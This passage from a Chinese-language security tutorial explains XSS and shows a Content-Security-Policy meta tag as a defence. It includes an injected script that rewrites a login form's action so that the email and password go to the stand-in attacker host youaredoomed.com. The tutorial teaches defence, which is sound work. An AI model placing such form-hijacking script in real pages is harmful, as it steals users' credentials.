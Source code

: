 用户可以输入<script\>alert("this is not expected")</script\>并提交表单。随后，当表单显示用户名时，它会执行脚本(在这种情况下会发出警告消息)。该脚本甚至可以加载可能造成更严重危害的外部脚本。

同样，假设我们的表单字段验证不足。用户可以利用这一点并将恶意JavaScript代码注入[DOM(文档对象模型)](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction)：

```html
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
<script>
    let form= document.forms.login;
    form.action="https://youaredoomed.com:9090/collect?u="+document.getElementById('email').value
        +"&p="+document.getElementById('password').value;
</script>
```

当用户点击登录按钮时，注入的JavaScript代码会将用户重定向到恶意站点。

当一个毫无戒心的用户提交表单时，他会被重定向到[https://youaredoomed.com](https://youaredoomed.com)并暴露他的凭据。

### 3.3 演示

让我们看看这个漏洞的实际情况。

通常，在会话超时后，服务器会将用户重定向到登录页面以输入他的凭据。但是，注入的恶意代码会将用户与用户的凭据一起重定向到一个意外站点：

<video src="../assets/csp.mp4"></video>

## 4. Spring Security

在本节中，让我们讨论缓解这些代码注入漏洞的方法。

### 4.1 HTML meta标签

在前面的示例中添加Content-Security-Policy标头会阻止将表单提交到恶意服务器。因此，让我们使用<meta\>标签添加此标头并检查其行为：

```html
<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

添加上述meta标签可防止浏览器将表单提交到其他源：

<img src="../assets/img_1.png">
